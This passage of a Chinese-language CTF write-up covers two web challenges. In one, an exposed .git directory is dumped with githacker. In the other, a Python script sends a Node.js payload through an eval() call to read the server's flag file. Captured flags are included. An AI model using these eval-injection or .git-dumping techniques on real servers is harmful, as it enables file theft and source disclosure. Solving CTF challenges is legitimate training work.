 3. Flag 3/3 ![image](https://hackmd.io/_uploads/BkKD5D4SC.png)

---

### Gotcha

> {{< spoiler "原圖" >}}
> ![Challenge](https://hackmd.io/_uploads/H1lTSKVH0.png "500px")
> {{< /spoiler >}}
> Can you get the flag?    
> https://gotcha.fhh4ck3rs.taipei/
>
> Author: Scott

#### 題解

點開題目DotGit插件馬上跳通知，因此從這方面下手，用githacker拿到在index.php的flag

**payload:**

   ```bash
   $ githacker --url https://gotcha.fhh4ck3rs.taipei/.git --output-folder tmp
   ```

> Flag: `FhCTF{I_9iT_!7}`

---

### BMI 計算機

> {{< spoiler "原圖" >}}
> ![Challenge](https://hackmd.io/_uploads/SkRoHgOrR.png "500px")
> {{< /spoiler >}}
> 體重的控制是重要的  
> ......但是說真的，減肥真的好難QWQ  
> 所以...別講這種傷感情的事情了好嗎！  
> https://bmi-calc.fhh4ck3rs.taipei/
>
> Author: xiunG

#### 題解

1. 附加檔案中的`app.js`，其中`result = eval(expression);`可作為攻擊點
2. 寫腳本
   ```python
   import requests
   
   req = requests.post('https://bmi-calc.fhh4ck3rs.taipei/bmi', json={
       'string': "require(\'fs\').readFileSync(\'./flag\').toString()"
   })
   print(req.status_code)
   print(req.content)
   ```

> Flag: `FhCTF{bReAk_bM1_cAcu1aT0r}`

---